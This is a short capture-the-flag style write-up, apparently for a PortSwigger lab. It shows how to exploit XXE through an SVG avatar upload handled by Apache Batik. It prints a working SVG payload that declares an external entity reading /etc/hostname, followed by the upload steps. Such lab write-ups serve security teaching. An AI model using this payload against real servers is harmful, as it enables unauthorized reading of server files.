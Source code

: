 # Exploiting XXE via image file upload

## Description

[This lab](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload) lets users attach avatars to comments and uses the `Apache Batik` library to process avatar image files.

## Reproduction and proof of concept

1. Create a local SVG image with the following content:

```text
<?xml version="1.0" standalone="yes"?>
    <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
    <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
        <text font-size="16" x="0" y="16">&xxe;</text>
    </svg>
```

2. Post a comment on a blog post, and upload this image as an avatar.
3. When you view your comment, you should see the contents of the ``/etc/hostname`` file in your image. Use the "Submit solution" button to submit the value of the server hostname.

## Exploitability

An attacker needs to upload an image that displays the contents of the /etc/hostname file after processing, and then use the "Submit solution" button to submit the value of the server hostname.
